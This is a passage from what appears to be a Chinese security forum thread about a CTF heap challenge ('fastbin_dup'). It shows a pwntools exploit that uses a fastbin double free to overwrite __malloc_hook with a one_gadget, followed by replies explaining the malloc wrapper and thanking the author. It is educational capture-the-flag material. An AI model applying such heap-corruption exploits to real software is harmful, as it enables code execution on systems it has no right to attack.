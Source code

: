 ```
malloc(0x48,"C"*8)
malloc(0x48,"D"*8)

chunk_C = malloc(0x58,"E"*8)
chunk_D = malloc(0x58,"F"*8)

free(chunk_C)
free(chunk_D)
free(chunk_C)

malloc(0x58,p64(libc.sym.main_arena+32))
malloc(0x58,"-s\0")
#  malloc(0x58,"G"*8)
malloc(0x58,"H"*8)                                                                                                                   

malloc(0x58,b"Y"*48+p64(libc.sym.__malloc_hook-36))

malloc(0x28,b"Z"*20+p64(libc.address+one_gadget))
malloc(1,'')

```

执行脚本效果

![](https://static.hack1s.fun/images/2021/04/01/image-20210401210231452.png)

![](https://static.52pojie.cn/static/image/filetype/zip.gif)

[challenge-fastbin_dup.zip](forum.php?mod=attachment&aid=MjI3MjY3OXwxMmNkNzczOXwxNjM2NTQ4MzAyfDIxMzQzMXwxNDI0ODYz)

2021-4-22 23:03 上传

点击文件名下载附件

下载积分: 吾爱币 -1 CB  

5.88 KB, 下载次数: 13, 下载积分: 吾爱币 -1 CB![](https://avatar.52pojie.cn/data/avatar/001/57/34/12_avatar_middle.jpg)> [woshitc008 发表于 2021-4-27 19:46](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38270058&ptid=1424863)  
> 你家的 malloc 为何会有两个参数

python 做的封装，pwntools 和二进制程序交互常见操作，看一下脚本就知道了  
[Python] _纯文本查看_ _复制代码_

```
def malloc(size, data):
   io.send("1")
   io.sendafter("size: ", f"{size}")
   io.sendafter("data: ", data)
   io.recvuntil("> ")

``` ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)呆毛王与咖喱棒

> [呆毛王与咖喱棒 发表于 2021-4-28 19:41](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38288486&ptid=1424863)  
> python 做的封装，pwntools 和二进制程序交互常见操作，看一下脚本就知道了  
> [mw_shl_code=python,true]  ...

原来如此  受教了 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) 技术贴，看不懂凑个热闹！![](https://avatar.52pojie.cn/data/avatar/000/48/62/99_avatar_middle.jpg)woshitc008 谢谢楼主分享 很详细 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) id3721 感谢楼主分享技术 学习学习 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) chenjingyes 感谢楼主分享技术 学习学习![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)烟痕呀 好好学习一下了。支持![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)那时一起走

```